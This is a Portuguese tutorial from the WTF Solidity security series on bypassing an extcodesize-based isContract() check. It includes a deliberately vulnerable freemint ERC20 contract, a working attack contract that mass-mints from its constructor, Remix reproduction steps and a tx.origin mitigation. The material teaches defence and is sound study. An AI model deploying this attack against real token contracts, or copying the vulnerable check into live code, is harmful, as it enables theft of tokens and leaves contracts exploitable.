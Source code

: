 # Segurança do Contrato Solidity: S08. Bypass da Verificação do Contrato

Recentemente, tenho revisado meus conhecimentos em Solidity, reforçando os detalhes e escrevendo um "Guia Simplificado do WTF Solidity" para iniciantes (os programadores experientes podem buscar outros tutoriais). Atualizarei o guia com 1-3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos falar sobre como contornar a verificação do comprimento do contrato e apresentar métodos de prevenção.

## Bypass da Verificação do Contrato

Muitos projetos freemint utilizam a função `isContract()` para limitar a chamada do `msg.sender` a apenas contas externas (EOA), e não a contratos. Essa função usa o método `extcodesize` para obter o comprimento do `bytecode` armazenado no endereço (em tempo de execução). Se esse comprimento for maior do que zero, é considerado um contrato; caso contrário, é uma conta EOA (usuário).

```solidity
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        // Um endereço com extcodesize > 0 é considerado um contrato
        // Porém, durante a chamada do construtor do contrato, extcodesize é 0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

No entanto, há uma vulnerabilidade: quando um contrato está sendo criado, o `bytecode` de tempo de execução ainda não foi armazenado no endereço, portanto o comprimento do `bytecode` é 0. Isso significa que se colocarmos a lógica no construtor do contrato, podemos contornar a verificação do `isContract()`.

## Exemplo de Vulnerabilidade

Aqui está um exemplo: o contrato `ContractCheck` é um contrato ERC20 freemint, e a função de mintagem `mint()` utiliza a função `isContract()` para impedir chamadas de contrato a fim de evitar a mintagem em massa por programadores. Cada chamada do `mint()` pode criar 100 tokens.
 
```solidity
// Verifica se é um contrato usando extcodesize
contract ContractCheck is ERC20 {
    // Construtor: inicializa o nome e o símbolo do token
    constructor() ERC20("", "") {}
    
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // Função de mintagem, apenas chamadas de contas não-contratuais são permitidas (com vulnerabilidade)
    function mint() public {
        require(!isContract(msg.sender), "Contrato não permitido!");
        _mint(msg.sender, 100);
    }
}
```

Vamos criar um contrato de ataque que chama repetidamente a função `mint()` do contrato `ContractCheck` no construtor, realizando a mintagem de 1000 tokens em massa: 

```solidity
// Ataque aproveitando as características do construtor
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // Quando o contrato está sendo criado, extcodesize (comprimento do código) é 0, então não será detectado por isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // Isso funcionará
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // Após a criação do contrato, extcodesize > 0, isContract() consegue detectar
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

Se nossa hipótese estiver correta, chamadas da função `mint()` no construtor podem contornar a verificação do `isContract()` e realizar a mintagem com sucesso, e o estado da variável `isContract` será definido como `false`. Após a criação do contrato, quando o `runtime bytecode` já estiver armazenado, o `extcodesize > 0` e o `isContract()` serão capazes de evitar a mintagem, resultando em falha ao chamar a função `mint()`.

## Reprodução no Remix

1. Deploy do contrato `ContractCheck`.

2. Deploy do contrato `NotContract`, passando o endereço do contrato `ContractCheck` como parâmetro.

3. Use a função `balanceOf` do contrato `ContractCheck` para verificar o saldo de tokens do contrato `NotContract` como `1000`, indicando um ataque bem-sucedido.

4. Chame a função `mint()` do contrato `NotContract`; como o contrato já foi criado, a chamada da função `mint()` irá falhar.

## Medidas Preventivas

Você pode usar `(tx.origin == msg.sender)` para verificar se o chamador é um contrato. Se o chamador for uma EOA, `tx.origin` e `msg.sender` serão iguais; se forem diferentes, o chamador será um contrato.

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Conclusão

Nesta lição, discutimos como é possível contornar a verificação do comprimento do contrato e apresentamos métodos preventivos. Se o comprimento do `extcodesize` de um endereço for maior que zero, é um contrato; mas se for zero, o endereço pode ser tanto uma EOA quanto um contrato em processo de criação.


